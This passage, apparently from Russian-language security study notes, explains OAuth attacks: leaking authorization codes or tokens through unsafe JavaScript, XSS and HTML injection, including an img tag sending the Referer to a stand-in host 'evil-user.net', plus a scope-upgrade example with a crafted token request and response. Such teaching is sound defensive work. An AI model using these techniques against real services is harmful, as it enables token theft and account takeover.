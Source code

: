 уязвимости которые позволяют извлечь код или токен и отправить его на внешний домен. Вот несколько хороших примеров:

- **Опасный JavaScript, который обрабатывает параметры запроса и фрагменты URL**  
    Например, небезопасные скрипты веб-сообщений могут быть хороши для этого. В некоторых сценариях вам, возможно, придется определить более длинную цепочку гаджетов, которая позволяет вам передавать токен через ряд скриптов, прежде чем в конечном итоге передать его на ваш внешний домен.
- **Уязвимости XSS**  
    Хотя атаки XSS сами по себе могут иметь огромное влияние, обычно существует небольшой промежуток времени, в течение которого злоумышленник имеет доступ к сеансу пользователя, прежде чем он закроет вкладку или уйдет. Поскольку атрибут `HTTPOnly`обычно используется для сеансовых cookie-файлов, злоумышленник часто также не сможет получить к ним прямой доступ с помощью XSS. Однако, украв код или токен OAuth, злоумышленник может получить доступ к учетной записи пользователя в его собственном браузере. Это дает им гораздо больше времени для изучения данных пользователя и выполнения вредоносных действий, что значительно увеличивает серьезность уязвимости XSS.
- **Уязвимости HTML-инъекции**  
    В случаях, когда вы не можете внедрить JavaScript (например, из-за ограничений [[Информационная безопасность#Безопасность контента|CSP]] или строгой фильтрации), вы все равно можете использовать простую HTML-инъекцию для кражи кодов авторизации. Если вы можете указать параметру `redirect_uri`страницу, на которой вы можете внедрить свой собственный HTML-контент, вы можете передать код через `Referer`заголовок. Например, рассмотрим следующий `img`элемент: `<img src="evil-user.net">`. При попытке получить это изображение некоторые браузеры (например, Firefox) отправят полный URL-адрес в `Referer`заголовке запроса, включая строку запроса.


### Неправильная проверка области действия

В любом потоке OAuth пользователь должен одобрить запрошенный доступ на основе области, определенной в запросе авторизации. Полученный токен позволяет клиентскому приложению получить доступ только к области, одобренной пользователем. Но в некоторых случаях злоумышленник может «обновить» токен доступа (украденный или полученный с помощью вредоносного клиентского приложения) с помощью дополнительных разрешений из-за некорректной проверки службой OAuth. Процесс выполнения этого зависит от типа гранта.

##### Обновление области действия: поток кода авторизации
При использовании [[Типы грантов OAuth 2.0#Тип предоставления кода авторизации|типа предоставления кода авторизации]] данные пользователя запрашиваются и отправляются через защищенную связь сервер-сервер, которую сторонний злоумышленник обычно не может манипулировать напрямую. Однако все еще может быть возможно достичь того же результата, зарегистрировав свое собственное клиентское приложение в службе OAuth.

Например, предположим, что вредоносное клиентское приложение изначально запросило доступ к адресу электронной почты пользователя, используя `openid email`область действия. После того, как пользователь одобрит этот запрос, вредоносное клиентское приложение получит код авторизации. Поскольку злоумышленник контролирует свое клиентское приложение, он может добавить еще один `scope`параметр в запрос обмена кодом/токеном, содержащий дополнительную `profile`область действия:
```
POST /token Host: oauth-authorization-server.com … client_id=12345&client_secret=SECRET&redirect_uri=https://client-app.com/callback&grant_type=authorization_code&code=a1b2c3d4e5f6g7h8&scope=openid%20 email%20profile
```

Если сервер не проверяет это на соответствие области действия из первоначального запроса авторизации, он иногда генерирует токен доступа, используя новую область действия, и отправляет его клиентскому приложению злоумышленника:
```
{ 
	"access_token": "z0y9x8w7v6u5", 
	"token_type": "Bearer", 
	"expires_in": 3600, 
	"scope": "openid email profile", … 
}
```
Затем злоумышленник может использовать свое приложение для совершения необходимых вызовов API для доступа к данным профиля пользователя.
